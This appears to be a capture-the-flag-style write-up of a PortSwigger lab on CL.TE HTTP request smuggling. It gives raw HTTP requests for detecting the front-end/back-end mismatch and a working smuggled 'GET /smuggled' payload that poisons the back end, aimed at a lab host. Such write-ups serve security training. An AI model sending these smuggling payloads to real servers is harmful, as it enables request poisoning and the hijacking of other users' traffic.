


# HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
# Objective
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.
To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a `404 Not Found` response.

# Solutionn
## Analysis
###  Determining what the front-end and back-end is using
`Time out` confirms `CL.TE` vulnerability.
```
POST / HTTP/1.1
Host: 0a6200bc0380cb9090c189f700010090.web-security-academy.net
Cookie: session=1lFjDqNc6qenEz6ZkW8HMydz5uF1gMDD
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
nap
X

```

||
|:--:| 
| *Front-end is using CL* |
| *Back-end is using TE* |

## Exploitation
First request poisoned the back-end. Second (the same request) was added to the end of the previous request - the `POST / HTTP/1.1` was ignored thanks to `Foo` header and smuggled request was executed.

```
POST / HTTP/1.1
Host: 0a6200bc0380cb9090c189f700010090.web-security-academy.net
Cookie: session=1lFjDqNc6qenEz6ZkW8HMydz5uF1gMDD
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /smuggled HTTP/1.1
Foo: x
```


||
|:--:| 
| *Request was smuggled* |